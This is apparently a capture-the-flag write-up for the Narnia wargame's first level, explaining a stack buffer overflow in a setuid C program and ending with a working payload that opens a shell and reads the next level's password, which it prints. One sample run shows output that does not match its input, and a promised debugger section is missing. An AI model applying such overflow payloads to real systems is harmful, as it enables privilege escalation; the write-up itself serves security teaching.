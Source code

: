 Introduction
============

There are to files related to this level.
The first one is named ```/narnia/narnia0```. It's a [setuid](https://en.wikipedia.org/wiki/Setuid) binary which we obviously have to [exploit](https://en.wikipedia.org/wiki/Exploit_(computer_security)) in order to gain access to the next level:

```
narnia0@narnia:~$ ls -al /narnia/narnia0
-r-sr-x--- 1 narnia1 narnia0 7460 Oct 23 04:22 /narnia/narnia0
```

The other file which is related to this level is a [C](https%3A%2F%2Fen.wikipedia.org%2Fwiki%2FC_(programming_language)&usg=AOvVaw3vI8WzyDIw4n3m42_eXFeI source code) file which intention is to explain us the internal workflow of the binary ```/narnia/narnia0```:

```
narnia0@narnia:~$ cat /narnia/narnia0.c

#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

When looking at the code we can see that there are two variables. One is named ```val``` and has a value of ```0x41414141``` already assigned. The other one is a char array named ```buf``` with a size of 20 bytes. After two lines of informational output using ```printf()``` there is a call to ```scanf()``` which reads in 24 bytes and stores them into the char array ```buf[20]```. Or in other words: when the program is executed, the user can input more data than the input buffer can handle. That's a so-called [Buffer Overflow](https://en.wikipedia.org/wiki/Buffer_overflow). More precisely it's a so-called [Stack Overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow) which has first and foremost been described by a hacker named Aleph One in his legendary article [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html).

The aim of ```/narnia/narnia0``` is to input the right amount and type of data in order to overflow the char buffer ```buf[20]``` and therefore overwrite the value of ```0x41414141``` which is stored in the variable ```val``` to the new value of ```0xdeadbeef```. 
If this has been achieved, a new shell is opened with the access rights of the next level's user ```narnia1```. This will let us execute additional commands in order to gain narnia1's password.


Theory
======

Let's start with some theory first in order to understand [Stack based Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow) and the [x86 architecture](https://en.wikipedia.org/wiki/X86). Both is required to successfully overflow the buffer with reasonable data in order to modify the program's workflow. Speaking of *reasonable* data, modern computer systems include some techniques to prevent and/or reduce the risk of buffer overflows. But since the narnia wargame doesn't use any [stack protection techniques](https://unix.stackexchange.com/questions/66802/disable-stack-protection-on-ubuntu-for-buffer-overflow-without-c-compiler-flags) we don't have to care about this right now. 

As mentioned before, the hardware platform where the narnia wargame is running on is x86. More precisely it's [x86_64](https://en.wikipedia.org/wiki/X86-64). Let's see if that's true:

```
narnia0@narnia:~$ uname -i
x86_64
```

The operating system of the narnia wargame is [Linux](https://en.wikipedia.org/wiki/Linux), of course this can be checked as well:

```
narnia0@narnia:~$ uname -o
GNU/Linux
```

And since we are already in the process of gathering required information about our target, let's determine some more details about the setuid binary file named ```/narnia/narnia0``` which we later want to exploit: 

```
narnia0@narnia:~$ file /narnia/narnia0
/narnia/narnia0: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=dd54e629928af495112df911bb651846c281d5d8, not stripped
```

As we can see it's a 32-bit compiled Linux [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) binary [executable](https://en.wikipedia.org/wiki/Executable) file which is [dynamically linked](https://stackoverflow.com/questions/311882/what-do-statically-linked-and-dynamically-linked-mean) and is [not stripped](https://unix.stackexchange.com/questions/2969/what-are-stripped-and-not-stripped-executables-in-unix). This means that we can let it run inside of a [debugger](https://en.wikipedia.org/wiki/Debugger) or a similar analyzis tools in order to take a look into the program's internals and/or to understand its workflow compared to the source code.


Preparation
===========

After some basic grey theory let's start with some experiments in order to learn and understand more required theory as well introducing useful tools and techniques.

We start by executing the binary ```/narnia/narnia0``` for the first time. As we already have analyzed, the program let's you enter arbitrary text that gets stored in a buffer that has a size of 20 bytes. Let's start doing this with less than 20 characters just to see what happens. 
Since we are too lazy to (repeatedly) type 10 or more characters, we [pipe](https://en.wikipedia.org/wiki/Pipeline_(Unix)) our input into the program's [```STDIN```](https://en.wikipedia.org/wiki/Standard_streams) using some [Python](https://en.wikipedia.org/wiki/Python_(programming_language)) magic:

```
narnia0@narnia:~$ python -c 'print "B"*10' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAA
val: 0x41414141
WAY OFF!!!!
```

What we can see ist that the char array ```buf[20]``` now contains 10 times the letter 'B' while the value of variable ```val``` remains 0x41414141. That's what we expected so far. 
Just a side note: The term ```0x41``` has a special meaning in cyber security. 0x41 is the [hexadecimal](https://en.wikipedia.org/wiki/Hexadecimal) representation of the letter 'A' as described in the [ASCII](https://en.wikipedia.org/wiki/ASCII) character encoding standard. The letter 'A' or its hexadecimal expression 0x41 are used to fill buffers in order to analyze a program's flow like we previously did. Using an 'A' or 0x41 is just some kind of a [convention](https://security.stackexchange.com/questions/18680/why-is-0x41414141-associated-with-security-exploits) because people found out that filling buffers with a sequence of identical characters simplifies looking for them in process memory later on. Since the pre-assigned value of ```val``` already contains a sequence of A's and therefore a sequence of 0x41's, we decided to fill the buffer ```buf``` with a sequence of the letter 'B' which is 0x42 in hexadecimal. This enables us to differenciate between the contents of the variable ```val``` and the contents of buffer ```buf[20]```. Let's open the program in the GNU Debugger (gdb) in order to visualize this behavior:



The expectation is that if we enter exactely these 20 characters, the buffer ```buf[20]``` gets filled with the characters and everything is fine.

narnia0@narnia:~$ python -c 'print "A"*20' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!


Solution
========

```
narnia0@narnia:~$ (echo -n -e "AAAAAAAAAAAAAAAAAAAA\\xef\\xbe\\xad\\xde";cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
cat /etc/narnia_pass/narnia1
efeidiedae
```
